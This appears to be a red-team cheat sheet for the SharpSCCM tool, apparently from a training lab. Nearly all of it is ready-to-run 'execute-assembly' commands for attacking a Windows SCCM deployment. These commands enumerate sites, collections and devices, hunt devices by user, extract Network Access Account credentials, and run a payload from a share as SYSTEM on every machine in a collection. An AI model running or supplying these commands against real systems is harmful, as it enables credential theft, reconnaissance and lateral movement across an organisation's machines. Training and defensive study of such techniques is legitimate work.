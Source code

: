 [GitHub Link](https://github.com/Mayyhem/SharpSCCM)


## local site-info

---

Enumerates SCCM.

```
execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe local site-info --no-banner
```


## get site-info

---

Checks DACL for machines that have full control over the AD.

```
execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe get site-info -d cyberbotic.io --no-banner
```


## get collections

---

Enumerates all the collections available in the groups the current user is in.

```
execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe get collections --no-banner
```


## get collection-members

---

Enumerates the members of a certain collection.

```
execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe get collection-members -n DEV --no-banner
```


## get devices

---

Enumerates devices.

```
execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe get devices -n WKSTN -p Name -p FullDomainName -p IPAddresses -p LastLogonUserName -p OperatingSystemNameandVersion --no-banner
```

### For User

`-u` will only return devices where the given user was the last to login.

```
execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe get devices -u nlamb -p IPAddresses -p IPSubnets -p Name --no-banner
```


## get class-instances

---

Returns the class instances of a collection.

```
execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe get class-instances SMS_Admin --no-banner
```


## local naa

---

Returns the Network Access Account Credentials.

```
execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe local naa -m wmi --no-banner
```


## exec

---

Executes commands on every device in a collection.

```
execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe exec -n DEV -p C:\Windows\notepad.exe --no-banner
```

### Force SYSTEM

`-s` forces the command to run with SYSTEM privileges.

```
execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe exec -n DEV -p "C:\Windows\System32\cmd.exe /c start /b \\dc-2\software\dns_x64.exe" -s --no-banner
```